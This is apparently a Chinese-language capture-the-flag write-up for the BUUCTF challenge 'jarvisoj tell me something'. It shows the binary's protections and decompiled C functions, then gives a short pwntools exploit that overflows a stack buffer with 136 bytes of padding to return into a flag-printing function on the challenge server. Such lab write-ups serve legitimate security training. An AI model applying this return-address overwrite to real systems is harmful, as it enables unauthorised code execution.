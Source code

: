 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj tell me something
date: 2022-3-25 14:20:03
permalink: /pages/2e1547494524d198
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj tell me something

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_tell_me_something/guestbook'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // [rsp+0h] [rbp-88h]

  write(1, "Input your message:\n", 0x14uLL);
  read(0, &v4, 0x100uLL);
  return write(1, "I have received your message, Thank you!\n", 0x29uLL);
}
```

good_game函数如下

```c
int good_game()
{
  FILE *v0; // rbx
  int result; // eax
  char buf; // [rsp+Fh] [rbp-9h]

  v0 = fopen("flag.txt", "r");
  while ( 1 )
  {
    result = fgetc(v0);
    buf = result;
    if ( (_BYTE)result == -1 )
      break;
    write(1, &buf, 1uLL);
  }
  return result;
}
```

readmessage函数如下

```c
ssize_t readmessage()
{
  __int64 v1; // [rsp+0h] [rbp-88h]

  return read(0, &v1, 0x100uLL);
}
```



## 思路分析

1. 目前信息：
   - main函数可溢出
   - good_game函数可直接打印flag
   - No PIE
2. 思路：
   - 溢出控制程序执行流到good_game即可获得flag

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_tell_me_something/guestbook'
io=remote('node4.buuoj.cn',28491)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
good_game=elf.symbols['good_game']
payload=flat(['a'*padding,good_game])
io.recv()
io.send(payload)
io.interactive()
```